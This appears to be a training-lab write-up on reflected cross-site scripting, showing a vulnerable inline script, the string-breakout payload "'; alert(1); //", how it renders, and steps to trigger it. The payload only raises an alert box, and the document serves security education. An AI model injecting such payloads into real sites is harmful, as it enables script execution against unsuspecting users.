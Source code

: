 
# **Lab 7 Write-Up: Exploiting JavaScript String to Inject XSS**

## **1. Understanding the Vulnerability**  
This lab contains a **reflected cross-site scripting (XSS) vulnerability** in a JavaScript context. The vulnerable code is as follows:

```html
<script>
    var searchTerms = 'USER_INPUT_HERE';
    document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');
</script>
```
The **`searchTerms`** variable is **directly injected into JavaScript** without proper sanitization or escaping. This creates an opportunity for an attacker to break out of the string and execute arbitrary JavaScript.  

---

## **2. Crafting the Exploit Payload**
The **goal** is to **break out** of the string (`'USER_INPUT_HERE'`), **terminate the current JavaScript statement**, and **inject JavaScript** that executes when the page is loaded.  

The successful payload is:  
```
'; alert(1); //
```

### **How the Payload Works:**
- **`'`** → Closes the string that is being assigned to `searchTerms`.  
- **`;`** → Ends the JavaScript statement.  
- **`alert(1);`** → Executes the JavaScript function `alert(1)`, which triggers an alert box.  
- **`//`** → Comments out the rest of the code to avoid syntax errors.  

### **Rendered JavaScript After Injection:**
```html
<script>
    var searchTerms = ''; alert(1); //';
    document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');
</script>
```
This **breaks out of the string** and **injects JavaScript** that executes immediately when the page is rendered.

---

## **3. Steps to Exploit the Vulnerability**
1. **Locate the input field** where `searchTerms` is reflected.  
2. **Enter the following payload in the input field:**
   ```
   '; alert(1); //
   ```
3. **Submit the form** containing the payload.  
4. **Observe the execution of the payload**—an alert box should appear.  
![Screenshot from 2025-02-23 13-29-09](https://github.com/user-attachments/assets/175a927a-c17f-440d-bf21-c63933d78683)

---